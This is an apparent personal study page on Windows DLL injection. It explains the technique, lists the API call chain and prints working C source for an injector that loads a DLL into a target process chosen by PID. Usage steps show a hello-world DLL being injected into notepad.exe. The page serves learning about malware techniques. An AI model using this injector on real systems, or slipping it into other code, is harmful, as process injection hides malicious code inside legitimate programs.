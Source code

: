 ```yaml
---
description: 06-21-2023
---
```


# 📚 DLL Injection

## What is DLL Injection?

A process injection technique that <mark style="color:yellow;">allows a malicious actor to be able to inject arbitrary code into another process</mark>.&#x20;

The malware <mark style="color:yellow;">writes the path to it's malicious DLL in the virtual address space of a legit process</mark> using [WriteProcessMemory()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory). This function will write data to an area of memory in a specified process.

It will then <mark style="color:yellow;">ensure the remote process loads it by creating a remote thread in the target process</mark>. This is performed via [CreateRemoteThread()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread).

## High Level Explanation

Targeted Program.exe (victim) -> [OpenProcess()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) -> [GetProcAddress()](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress) -> [VirtualAllocEx()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) -> [WriteProcessMemory()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) -> [CreateRemoteThread()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)

1. <mark style="color:green;">Open/Create</mark> a process for injection
2. <mark style="color:green;">Allocate</mark> memory for the process
3. <mark style="color:green;">Write</mark> DLL's path to the region of allocated memory
4. <mark style="color:green;">Call</mark> <mark style="color:yellow;">LoadLibraryA</mark>/<mark style="color:yellow;">W</mark>/<mark style="color:yellow;">CreateRemoteThread()</mark> inside the remote process with the DLL path.

## PoC

{% embed url="https://github.com/0xXyc/maldev/blob/main/winAPI/dll-injection/inject-dll.c" %}

This program requires the usage of a single command line argument that will take an valid PID.&#x20;

Check task manager to target a specific process. This current build works on a Windows 11 machine, targetting a x64 executable, and utilizes a 64 bit DLL as of the time of this writing.

#### Instructions:

1. For example, start notepad
2. Right-click inside of task manager and select "Go to details"
3. Look for the PID of notepad.exe
4. Run the syntax below replacing \<PID> with the PID of notepad.exe

#### Syntax:

```
./inject-dll.exe <PID>
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Notice how the Hello World messagebox appears in the same tab as notepad.exe on your taskbar:

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption><p>Proving our messagebox was successfully injected into notepad.exe</p></figcaption></figure>

inject-dll.c:

```c
#include <stdio.h>
#include <windows.h>

int main(int argc, char *argv[])
{
    HANDLE processHandle;
    HANDLE threadHandle;
    PVOID remoteBuffer;
    LPCSTR dllPath = "C:\\testcode\\hello-world-x64.dll";
    SIZE_T dllPathLength = strlen(dllPath) + 1;
    PTHREAD_START_ROUTINE threatStartRoutineAddress;

    printf("Injecting DLL to PID: %i\n", atoi(argv[1]));

    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, atoi(argv[1]));
    if(!processHandle)
    {
        printf("OpenProcess Failed: %d\n", GetLastError());
        return 0;
    }

    remoteBuffer = VirtualAllocEx(processHandle, NULL, dllPathLength, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    if(!remoteBuffer)
    {
        printf("VirtualAllocEx Failed: %d\n", GetLastError());
        return 0;
    }

    if(!WriteProcessMemory(processHandle, remoteBuffer, dllPath, dllPathLength, NULL))
    {
        printf("WriteProcessMemory Failed: %d\n", GetLastError());
        return 0;
    }

    threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryA");
    threadHandle = CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
    if(!threadHandle)
    {
        printf("Remote thread failed. %d\n", GetLastError());
        return 0;
    }

    printf("Success\n");

    CloseHandle(threadHandle);
    CloseHandle(processHandle);

    return 0;
}
```

#### DLL:

{% embed url="https://github.com/carterjones/hello-world-dll/releases/tag/v1.0.0" %}

To Do:&#x20;

* I need to learn how to write my own DLL's
